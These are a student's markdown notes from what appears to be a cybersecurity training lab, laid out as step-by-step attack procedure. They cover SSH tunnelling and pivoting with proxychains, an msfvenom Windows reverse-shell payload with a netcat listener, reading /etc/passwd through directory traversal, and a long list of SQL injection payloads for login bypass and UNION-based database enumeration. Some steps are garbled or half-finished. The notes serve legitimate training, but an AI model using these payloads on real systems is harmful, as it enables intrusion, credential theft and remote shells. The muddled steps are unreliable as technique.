

## General Steps 1 to a Target ##

### STEP 1 ###

1. Gain initial access. 

        Use information gained from scanning, ping and what not to gain initial access to the system.

2. Find any other additional targets
        
        Post exploitation attacks , e.g. Situational Awareness, enumeration and escalation privilege. 

3. Pivot or go to the targets found in 2. 

## General Steps to a Target ##

Step 1. Create local tunnels to target point 

Step 2. Check ip addresses to the target points whether they are active or responsive 

Step 3. `cat /etc/hosts` or cat `/etc/passwd`see what's in there

Not sure about these here 

Move dynamic to An : ssh An@localhost –p 50511 –D 9050 -NT

Linoops proxychain `nmap –Pn 192.168.28.179`

RDP from An to Lh

Student@lin-ops ssh An@localhost –p 50522 –L 50533:192.168.28.179:3389 –NT

`Msf6 payload(windows/shell_reverse_tcp)>generate –b “\x00\x0a\x0d\x20” -f python`

Open Immunity Debugger to see if its broken

https:wireshark.eu/tools/buffer-overflow-pattern-generator/?

Pattern length of 5000 and copy the nre pattern with the code

Rund the code again and we should find a new EIP

NEW EIP will be the offset in wiremask

Student@lin-ops$ `msfvenom –p windows/shell_reverse_tcp lhost=10.50.40.109 lport=4444 –b “\x00” -f python`

Nc –lvp 4444

Proxychains ./whateverfile.py

Step 4. Perform nmap scans on targets to find attackers from linops

Step 5. Perfrom enumeration on the found target IP on port 80

Step 6. Change proxy settings on browser 

Step 7. Perform SQL injections http://ip.address/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
        Or enter the information on the login page 

Step 8. Enumerate the scripts on the website you logged in to to find any other information for login. http://ip.address/scripts or anything on here/. Find users e.g. user_mahlon and passwords 

Step 9. Perform directory traversals things like /etc/passwd pages and /etc/hosts 

Step 10. Use any information to login to the sites, ssh'ing to the respective sites e.g. user_mahlon@i-_address use the password found

Step 12: ls, cd to /etc/hosts /etc/passwd and other folders while looking for other targets say you find an ip address 192.6.6.6 called shenanigans.. get the hostname say the hostname is shenanigans_hostname 

Step 13. Login to the target and go to bash, e.g. type bash on terminal then scan for the ip e.g. `user_mahlon@shenanigans_hostname:/$ for i in {1..254};do (ping -c 1 192.6.$i | grep "bytes from" &); done` this will show what addresses are open. 181

Step 14. From the linops machine ssh dynamically to found hosts use user_mahlon

Step 15. From here you can run proxychains and nmap to find targets e.g. `student@lin-ops:~$ proxychains sudo nmap -sS -Pn 192.6.6.NumFOndin14 -p 1-2,3,4,5`

Step 16. Check for enum scripts and netbios using `nmap –Pn – 192.192.6.6.NumFOndin14 -sV`  or `nmap –Pn – 192.6.6.NumFOndinin14 --script -enum`

Step 17. Go to the http page and try and perfrom sql injection union selection reference table notes.

NOTES: 

    Site has a login page / url has an equal sign in it ⇒ SQL Injection
        20.178
        Basic SQL Commands: Web Exploitation - Day 2 :: Cyber Common Technical Core - Security & Exploitation Module -> https://sec.cybbh.io/public/security/latest/lessons/lesson-5-sql_sg.html#_demo_sql_commands_sql_demo_box?isPin=false

        Finding Unsanitized Fields: 
            1. Use NMAP script: proxychains nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse <IP>
            2. Use single quote: ' ⇒ Results in non-standard error/extraneous information
        
        Login Page:
            Post Method: Try in both username and password: tom' or 1='1
            
            Doesn't work ⇒ switch to GET Method
                - Open inspector
                - Find POST statement for username and password
                - Double-Click and change to GET
                - In the username/password fields on the page, put: tom' or 1='1
                - Alternate method: pass in truth statements to the URL on the php page: <URL>/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
        
        Site Interaction (e.g., Page pulls data from database and returns to screen)
            
            Identify POST / GET with page source or inspector
            Find the vulnerable POST method
                - Use the option legitimately to see what happens
                - Try a truth state with legitimate data (e.g., Ford' OR 1='1)
                - Doesn't work? Iterate with other options (e.g., Audi' OR 1='1)
            
            Find the vulnerable GET method
                - When you submit the GET request, the URL has a ?[var]=
                    -> e.g., <URL>/uniondemo.php?Selection=2&Submit=Submit
                - Look at how the variable works (integers or strings) then edit your truth statement accordingly
                    -> If integer search method: no quotes (e.g., <URL>/uniondemo.php?Selection=2 OR 1=1)
                    -> If string search method: quotes (e.g., <URL>/uniondemo.php?Selection=RAM' OR 1='1
                - If it doesn't work, iterate on the selection
            
            - Validate the column layout
                -> Validate the NUMBER of columns required (GET): <URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3
                -> Validate the NUMBER of columns required (POST): Audi' Union SELECT 1,2,3,4
                -> OR Validate the NUMBER of columns required (POST): Audi' Union SELECT 1,2,3,4;#
                -> Look at what values appear (if some columns don't show up)
                -> Look to see if the columns are out of order
                -> Keep incrementing until it fails to see how many columns
            
            Enumerate the Database
                - Golden Statement (POST): Audi' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;
                    -> add items to search to have enough columns
                    -> May need to add # to the end of the golden statement
                - Golden Statement (GET): <URL>/uniondemo.php?Selection=2 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
                - DONT CLOSE TAB
            
            Pull Out Useful Information
                - POST: Audi' UNION SELECT name,size FROM session.Tires
                - GET: <URL>/uniondemo.php?Selection=2 UNION SELECT null,name,color FROM car

Step 18. Add kizao prd = numberi saba union select table_schema, column_name, table_name FROM information_schema.columns. pick.php?product=6 or 1=1

Step 19. Step 13

Step 20. Perform escalation of privilege -> TODO: Review notes for post escalation privilege

## How to check IP addresses in a local network and whether they are active and responsive ##

So, in summary, the below script pings each IP address in the range 192.168.28.1 to 192.168.28.254 once and then searches for lines in the ping output that contain "bytes from." It does this for all IP addresses concurrently by running the grep command in the background for each ping. This is often used to quickly check which IP addresses in a local network are active and responsive.

student@lin-ops:~$ `for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done`

## How to perform NMAP scan on the target from linops ##

student@lin-ops:~$ `sudo nmap -sS -Pn 10.50.27.209 -p 135-139,22,80,443,21,8080`

-sS: This option specifies to use TCP SYN scanning. In TCP SYN scanning, the tool sends SYN packets to the target ports to determine if they are open or closed. It's a common method for quickly identifying open ports.

-Pn: This option tells nmap not to perform host discovery. By default, nmap tries to determine if the host is up before scanning, but -Pn disables this and assumes the host is up.

When you run this command, nmap will send SYN packets to each of the specified ports on the target IP address 10.50.27.209 and determine whether they are open, closed, or filtered by a firewall. 

## How to perform enumeration on a target ##

student@lin-ops:~$ `nmap -Pn -sT 10.50.27.209 -p 80 --script http-enum.nse`

The purpose of this nmap command is to scan the target host 10.50.27.209 specifically for an HTTP service running on port 80 and to enumerate information about that service using the http-enum.nse script.

-Pn: This option tells nmap not to perform host discovery. It assumes that the host is up without checking. 

-sT: This option specifies to use TCP connect scanning (-sT). TCP connect scanning is a basic technique where nmap attempts to establish a full TCP connection with the target host on the specified port(s). It's a straightforward method for checking whether a port is open.
